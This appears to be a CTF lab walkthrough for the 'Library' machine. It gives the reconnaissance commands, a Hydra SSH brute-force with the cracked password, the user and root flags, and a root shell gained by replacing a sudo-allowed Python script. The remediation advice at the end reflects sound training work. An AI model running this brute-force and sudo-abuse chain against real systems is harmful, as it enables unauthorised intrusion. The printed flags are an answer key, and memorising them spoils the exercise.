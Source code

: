 # Library CTF Walkthrough

## Overview
Library is a Capture The Flag (CTF) machine designed to practice penetration testing skills. The goal is to gain root access and retrieve both user and root flags. This walkthrough documents the steps taken to compromise the machine.

**Machine IP:** 10.10.218.43  
**Difficulty:** Easy  
**Tags:** SSH, Web, Brute-Force, Privilege Escalation, Sudo Misconfiguration

---

## Reconnaissance

### Nmap Scan
```bash
nmap -A 10.10.218.43
```

**Findings:**
- **Port 22/tcp:** OpenSSH 7.2p2 Ubuntu
- **Port 80/tcp:** Apache httpd 2.4.18 (Ubuntu)
- **OS:** Linux 4.4

### Gobuster Directory Enumeration
```bash
gobuster dir -u http://10.10.218.43/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,js -t 50
```

**Key Findings:**
- `robots.txt` contains:
  ```
  User-agent: rockyou
  Disallow: /
  ```
- `index.html` reveals a username: `meliodas`

---

## Initial Access

### SSH Brute-Force with Hydra
Using the username `meliodas` and the `rockyou.txt` wordlist:
```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.218.43 -t 4
```

**Result:**  
Password found: `iloveyou1`

### SSH Login
```bash
ssh meliodas@10.10.218.43
```

### User Flag
Located at `/home/meliodas/user.txt`:  
`6d488cbb3f111d135722c33cb635f4ec`

---

## Privilege Escalation

### Enumeration
- Discovered `bak.py` in `/home/meliodas/` (owned by root):
  ```python
  #!/usr/bin/env python
  import os
  import zipfile

  def zipdir(path, ziph):
      for root, dirs, files in os.walk(path):
          for file in files:
              ziph.write(os.path.join(root, file))

  if __name__ == '__main__':
      zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
      zipdir('/var/www/html', zipf)
      zipf.close()
  ```

- Checked sudo permissions:
  ```bash
  sudo -l
  ```
  **Output:**
  ```
  User meliodas may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
  ```

### Exploitation
1. Removed the original `bak.py` (writable home directory):
   ```bash
   rm bak.py
   ```

2. Created a malicious `bak.py`:
   ```bash
   echo 'import os; os.system("/bin/bash")' > bak.py
   ```

3. Executed with sudo to gain root shell:
   ```bash
   sudo /usr/bin/python3 /home/meliodas/bak.py
   ```

### Root Flag
Located at `/root/root.txt`:  
`e8c8c6c256c35515d1d344ee0488c617`

---

## Key Takeaways
1. **Information Disclosure:** `robots.txt` and `index.html` leaked critical hints (username and wordlist).
2. **Brute-Force Protection:** Use strong passwords to prevent SSH brute-forcing.
3. **Sudo Misconfiguration:** Restrict sudo permissions to prevent arbitrary code execution.

---

## Remediation
- Use strong, unique passwords for SSH.
- Avoid disclosing usernames in web content.
- Restrict sudo permissions to specific commands without wildcards.
- Regularly audit sudo rules and file permissions.

---

## Tools Used
- Nmap
- Gobuster
- Hydra
- SSH

---

## References
- [Rockyou Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
- [Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)

---

**Author:** Goodluck Oyebisi  
**Date:** September 1, 2025  


